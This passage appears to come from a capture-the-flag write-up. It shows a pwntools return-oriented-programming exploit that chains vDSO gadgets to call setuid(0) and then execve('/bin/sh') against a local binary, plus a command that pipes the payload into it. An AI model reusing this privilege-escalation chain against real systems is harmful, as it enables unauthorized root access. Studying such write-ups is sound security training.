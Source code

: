 We can feed it to the binary as so:

```sh
$ (echo -e "<<payload>>"; cat) | ./target
```

The `-e` flag means hex codes such as `\xf8` are interpreted as the byte `0xf8`, rather than the characters `\` then `x` etc.

We get a shell! Unfortunately we're still the `challenger` user - this is because `/bin/sh` drops privileges when `the real user id != the effective user id`, we can bypass this by setting our real user id before calling `execve` using `setuid(0)`.

Our final exploit is this:

```py
from pwn import *

context.binary = './target'

VDSO_BASE_ADDR = 0xf7ffc000

MOV_EAX_ECX_PLUS_EBP_M20 = VDSO_BASE_ADDR + 0x67c
POP_EBP = VDSO_BASE_ADDR + 0x0000613
POP_EDX_ECX = VDSO_BASE_ADDR + 0x0000057a
SYSCALL_POP_EBP_EDX_ECX = VDSO_BASE_ADDR + 0x00000577
BINSH = 0xffffdf20
ARGV = BINSH + 8

payload = flat(
    b'A'*0x20,
    
    POP_EBP, 
    0x8048028,

    POP_EDX_ECX, 
    0, 
    23,

    MOV_EAX_ECX_PLUS_EBP_M20,
    b'A'*44,
    0,
    b'A'*12,
    SYSCALL_POP_EBP_EDX_ECX,
    0x8048028,
    0, 11,
    MOV_EAX_ECX_PLUS_EBP_M20,
    b'A'*44,
    BINSH,
    b'A'*12,

    POP_EDX_ECX,
    0,
    ARGV,

    SYSCALL_POP_EBP_EDX_ECX,
    b'/bin/sh\x00',
    BINSH+5,
    0
)

print(payload)

```
